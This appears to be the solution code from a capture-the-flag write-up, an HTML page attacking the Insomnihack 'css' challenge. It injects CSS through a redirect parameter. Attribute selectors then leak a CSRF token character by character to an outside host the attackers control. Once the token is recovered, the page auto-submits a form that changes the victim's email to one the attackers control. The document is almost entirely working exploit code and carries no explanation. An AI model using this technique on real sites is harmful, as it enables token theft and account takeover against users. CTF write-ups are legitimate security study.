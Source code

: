 ```html
<html>
<head>
<script src="https://ajax.googleapis.com/ajax/libs/jquery/3.2.1/jquery.min.js"></script>
<script>
var token = '';
function gen_src()
{
    src = 'http://css.teaser.insomnihack.ch/?page=login&redirect=%22%3E%3Clink%20rel=%22stylesheet%22%20href=%22?page=search%26search=%25%250a{}%250a'
   
    chars = "0123456789abcdef"
    for(c = 0; c < 16; c++)
        src += 'input[value^=%27'+token+chars[c]+'%27%20i]{background:url(%27http:%252f%252fcss.teaser.insomnihack.ch.nazywam.p4.team%252fsave%252f'+chars[c]+'%27);}%250a'
    document.getElementById('ramek').src = src;
    console.log(src);
 
    $.ajax({
    type: "GET",
    url: "http://css.teaser.insomnihack.ch.nazywam.p4.team/get_token",
    //async: false,
        success: function (data) {
            console.log(data);
            token += data;
            if(token.length < 32)
            {
                gen_src();
                }
            else
            {
                console.log(token);
                document.getElementById('csrf').value=token;
                document.getElementById('form').submit();
            }
        }
        });
}
</script>
</head>
<body onload="gen_src()">
<iframe id="ramek"></iframe>
<form action="http://css.teaser.insomnihack.ch/?page=profile" method="POST" id="form">
            <input type="text" name="name" value="p4"/>
            <input type="text" name="age" value="31337"/>
            <input type="text" name="country" value="p4"/>
            <input type="text" name="email" value="EMAIL_WE_CONTROL"/>
            <input type="hidden" name="csrf" value="" id="csrf"/>
            <input type="hidden" name="change" value="Modify profile"/>
        </tr>
    </form>
</body>
</html>
```
